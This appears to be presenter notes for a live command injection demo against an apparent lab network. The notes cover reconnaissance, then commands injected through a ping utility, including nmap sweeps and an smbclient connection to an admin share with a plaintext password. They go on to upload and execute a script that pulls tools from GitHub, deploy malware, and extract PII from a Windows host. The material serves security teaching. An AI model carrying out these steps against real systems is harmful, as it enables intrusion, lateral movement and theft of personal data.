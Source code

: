 Command Injection Demo:

Academic:
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack
 
Commands:
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

* It should be apparent at this point that I own the box so….*

Drop to shell to show rest of demo and malware deployment.
	Execute pii script
	Show pii data pulled from windows machine
	
	

